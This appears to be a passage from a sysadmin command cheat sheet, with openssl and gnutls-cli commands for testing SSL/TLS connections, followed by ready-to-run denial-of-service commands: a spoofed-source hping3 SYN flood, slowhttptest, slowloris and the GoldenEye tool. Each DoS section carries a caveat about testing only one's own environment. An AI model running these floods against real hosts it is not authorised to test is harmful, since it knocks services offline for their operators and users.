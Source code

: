 ###### Testing SSL connection

```bash
# 1)
echo | openssl s_client -connect <server_name>:<port>

# 2)
gnutls-cli --disable-sni -p 443 <server_name>
```

###### Testing SSL connection (with SNI support)

```bash
# 1)
echo | openssl s_client -servername <server_name> -connect <server_name>:<port>

# 2)
gnutls-cli -p 443 <server_name>
```

###### Testing SSL connection with specific SSL version

```bash
openssl s_client -tls1_2 -connect <server_name>:<port>
```

###### Testing SSL connection with specific cipher

```bash
openssl s_client -cipher 'AES128-SHA' -connect <server_name>:<port>
```

###### TCP SYN flood Denial of Service attack

  > Only use this for testing the availability, performance and capacity planning of a web application of your environment.

```bash
hping3 -V -c 1000000 -d 120 -S -w 64 -p 80 --flood --rand-source <remote_host>
```

###### HTTP Denial of Service attack

  > Only use this for testing the availability, performance and capacity planning of a web application of your environment.

```bash
# 1)
slowhttptest -g -o http_dos.stats -H -c 1000 -i 15 -r 200 -t GET -x 24 -p 3 -u <scheme>://<server_name>/index.php

slowhttptest -g -o http_dos.stats -B -c 5000 -i 5 -r 200 -t POST -l 180 -x 5 -u <scheme>://<server_name>/service/login

# 2)
pip3 install slowloris
slowloris <server_name>

# 3)
git clone https://github.com/jseidl/GoldenEye && cd GoldenEye
./goldeneye.py  <scheme>://<server_name> -w 150 -s 75 -m GET
```
